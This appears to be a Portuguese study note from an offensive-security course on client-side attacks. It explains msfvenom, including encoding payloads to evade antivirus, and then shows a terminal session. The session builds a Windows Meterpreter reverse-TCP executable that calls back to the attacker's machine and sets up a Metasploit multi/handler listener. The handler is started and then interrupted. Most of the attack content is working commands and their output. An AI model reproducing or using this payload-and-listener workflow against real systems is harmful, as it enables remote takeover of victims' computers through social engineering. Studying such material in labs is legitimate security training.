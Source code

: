 # Conceito

- Não é explorada uma vunerabilidade do sistema, mas a falha humana.
- Consiste de enviar um payload à máquina alvo e esperar a sua execução. O payload é executado pelo próprio usuário da máquina alvo.

## Criação do payload - msfvenom

O **`msfvenom`** é uma ferramenta do **Metasploit Framework**, usada principalmente para **criar payloads** maliciosos customizados.

O `msfvenom` permite que você:
* **Gere executáveis maliciosos** (ex.: `.exe`, `.apk`, `.elf`, `.ps1`) que, quando executados, dão controle remoto da máquina para o atacante.
* **Incorpore payloads em arquivos existentes** (ex.: PDF, imagem, etc.).
* **Codifique/encode** o payload com diferentes métodos para dificultar detecção por antivírus.
* **Escolha formatos de saída** (binário cru, executável, código fonte em C, Python, Powershell etc.).

$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell1.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell1.exe


$ msfconsole
Metasploit tip: Use sessions -1 to interact with the last opened session
                                                  

     .~+P``````-o+:.                                      -o+:.
.+oooyysyyssyyssyddh++os-`````                        ```````````````          `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.`                 .-.-...-////+++++++++++++++////////~~//////++++++++++++///
                                `...............`              `...-/////...`


                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........
================================================================================
=====================+--------------------------------+=========================
=====================| Session one died of dysentery. |=========================
=====================+--------------------------------+=========================
================================================================================

                     Press ENTER to size up the situation

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

                        Press SPACE BAR to continue



       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 432 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp



msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > ifconfig
[*] exec: ifconfig

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:60:d0:c1:ee  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 8 overruns 0  carrier 0  collisions 0

eth0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 50:b3:63:00:fc:13  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Loopback Local)
        RX packets 256  bytes 20448 (19.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 256  bytes 20448 (19.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.10  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::9885:3861:5d45:c229  prefixlen 64  scopeid 0x20<link>
        ether 5c:c9:d3:75:ce:ad  txqueuelen 1000  (Ethernet)
        RX packets 1520814  bytes 1688871939 (1.5 GiB)
        RX errors 0  dropped 13479  overruns 0  frame 0
        TX packets 241380  bytes 30872449 (29.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

msf6 exploit(multi/handler) > set LHOST 192.168.1.10 
LHOST => 192.168.1.10
msf6 exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
exit
^C[-] Exploit failed [user-interrupt]: Interrupt                                                                                                     
[-] run: Interrupted                                                                                                                                 
msf6 exploit(multi/handler) >          
